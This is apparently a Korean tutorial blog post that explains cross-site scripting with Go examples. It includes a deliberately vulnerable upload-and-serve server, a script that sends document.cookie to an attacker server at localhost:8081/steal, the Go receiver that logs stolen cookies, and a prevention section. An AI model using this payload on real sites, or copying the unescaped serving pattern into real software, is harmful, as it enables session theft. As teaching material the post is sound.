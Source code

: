 +++
author = "penguinit"
title = "XSS 란 무엇인가 Golang을 통해서 알아보기"
date = "2024-03-17"
description = "오늘 포스팅에서는 XSS(Cross-Site Scripting)에 대해서 알아보고 Golang으로 간단하게 웹 서버를 구축해보고 어떤 식으로 공격을 할 수 있는지에 대해서 알아보겠습니다."
tags = [
"xss", "browser", "golang"
]
categories = [
"web", "language"
]
+++

## 개요

오늘 포스팅에서는 XSS(Cross-Site Scripting)에 대해서 알아보고 Golang으로 간단하게 웹 서버를 구축해 보고 어떤 식으로 공격을 할 수 있는지에 대해서 알아보겠습니다.

## XSS란

XSS(Cross-Site Scripting)는 사용자가 제공한 입력값을 검증하거나 적절히 이스케이프 처리하지 않았을 때 발생할 수 있는 취약점을 얘기합니다. 공격자는 이 취약점을 이용해 악의적인 스크립트를 웹 페이지에 삽입할 수 있으며, 이 스크립트는 다른 사용자의 브라우저에서 실행되고 이를 통해 사용자 세션을 탈취하거나 웹 사이트를 변조하는 등의 행위를 할 수 있습니다.

![Untitled](images/Untitled.png)

## XSS 공격 예시

간단하게 Golang을 통해서 웹 서버를 만들어보고 민감한 정보를 가져오는 예제를 만들어 보겠습니다.

### 특정 컨텐츠를 업로드해서 보여주는 서버

```go
package main

import (
	"fmt"
	"io"
	"net/http"
	"os"
)

func uploadFileHandler() http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		if r.Method == "POST" {
			// 1. 파일을 추출
			file, _, err := r.FormFile("uploadedFile")
			if err != nil {
				http.Error(w, err.Error(), http.StatusBadRequest)
				return
			}
			defer file.Close()

			// 2. 파일 내용을 읽음
			fileBytes, err := io.ReadAll(file)
			if err != nil {
				http.Error(w, err.Error(), http.StatusInternalServerError)
				return
			}

			// 3. 파일 내용을 서버의 임시 파일로 저장
			err = os.WriteFile("uploadedScript.html", fileBytes, 0644)
			if err != nil {
				http.Error(w, err.Error(), http.StatusInternalServerError)
				return
			}

			fmt.Fprintf(w, "File uploaded successfully")
		}
	}
}

func serveContentHandler() http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		http.ServeFile(w, r, "uploadedScript.html")
	}
}

func main() {
	http.HandleFunc("/", uploadFileHandler())
	http.HandleFunc("/content", serveContentHandler())

	fmt.Println("Server started at :8080")
	http.ListenAndServe(":8080", nil)
}
```
`POST /` 함수로 XSS 공격을 위한 스크립트를 업로드할 수 있고 `GET /content` 함수를 통해서 업로드한 컨텐츠를 유저에게 전달합니다.

### 업로드 되는 XSS 공격을 위한 스크립트

```jsx
// xss.html

<script>
function sendCookies() {
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "http://localhost:8081/steal?cookie=" + encodeURIComponent(document.cookie), true);
    xhr.send();
}

sendCookies();
</script>
```
해당 스크립트가 수행이되면 8081 포트로 스크립트를 수행하는 유저의 쿠키정보를 공격자 서버로 전송합니다.

### 공격자 서버

공격자 서버에서는 심어둔 XSS 공격 스크립트를 통해서 쿠키 정보를 전달 받습니다.

```go
package main

import (
	"fmt"
	"log"
	"net/http"
)

func main() {
	http.HandleFunc("/steal", func(w http.ResponseWriter, r *http.Request) {
		enableCors(&w)

		// 쿼리 파라미터에서 "cookie" 값을 가져옵니다.
		cookie := r.URL.Query().Get("cookie")
		// 콘솔에 출력합니다.
		fmt.Printf("Stealed Cookie: %s\n", cookie)

		w.WriteHeader(http.StatusOK)
		fmt.Fprint(w, "OK")
	})

	log.Println("공격자 서버 8081 포트에서 시작...")
	log.Fatal(http.ListenAndServe(":8081", nil))
}

func enableCors(w *http.ResponseWriter) {
	(*w).Header().Set("Access-Control-Allow-Origin", "*")
}
```

### 실제 수행결과

1. curl을 이용해서 formFile 업로드

```
curl -F "uploadedFile=@path/to/xss.html" http://localhost:8080/
```

2. GET /content 를 특정유저가 접속 ([http://localhost:8080/content](http://localhost:8080/content))
3. 공격자 서버에서 쿠키정보를 갈취

```
2024/03/17 17:02:10 공격자 서버 8081 포트에서 시작...
Stealed Cookie: Authorization=t1823ski!3a;
```

위에 예제를 통해서 XSS 공격 스크립트를 삽입하고 고객이 해당 페이지에 접근했을 때 공격자 서버로 쿠키관련 정보를 얻게 됩니다.

## XSS 방지

XSS 공격을 사전에 방지하기 위해서 여러 가지 방법을 고려해 볼 수 있습니다.

1. 입력 검증: 사용자로부터 받는 모든 입력에 대해 검증을 수행해야 합니다. 예를 들어, 이메일 주소 필드에는 오직 이메일 주소만 허용되어야 하고, 이름을 입력하는 곳에서는 길이를 제한하거나 특정 문자가 들어오도록 검증하는 것들을 포함할 수 있습니다.
2. 출력 인코딩: 사용자 입력을 웹 페이지에 출력할 때, HTML 인코딩을 사용하여 스크립트 태그와 같은 잠재적으로 위험한 문자를 안전한 형태로 변환합니다. 예를 들어 `<`를 `&lt;`로, `>`를 `&gt;`로 변환합니다.
3. CSP(Content Security Policy): CSP를 사용하면, 웹 페이지에서 실행할 수 있는 스크립트의 출처를 제한할 수 있습니다.  → [CSP 란 무엇인가, Golang으로 자세히 알아보기](/post/202403/5/)
4. 쿠키 설정: `HttpOnly`와 `Secure` 플래그를 사용하면, XSS 공격으로부터 사용자의 세션을 보호하는 데 도움이 됩니다.
    1. `HttpOnly`: 이 플래그가 설정된 쿠키는 JavaScript를 통해 접근할 수 없으므로, XSS 공격을 통한 쿠키 탈취를 방지할 수 있습니다.
    2. `Secure`: 이 플래그가 설정된 쿠키는 오직 HTTPS를 통해서만 전송됩니다.

## 정리

XSS 공격은 위에 예시 외에도 다양한 방법으로 시도될 수 있습니다. DB에 저장되는 특정 필드에 공격 스크립트를 넣을 수도 있고 사용자의 입력을 그대로 출력하는 기능이 있을 경우 위에 얘기한 XSS 공격을 고려하지 않았을 때 원치 않는 스크립트를 바로 수행할 수도 있습니다. 

해당 포스팅에서는 XSS가 무엇인지 그리고 어떤 식으로 공격을 시도할 수 있는지에 대해서 간단단 Golang 예제를 통해서 알아보았습니다.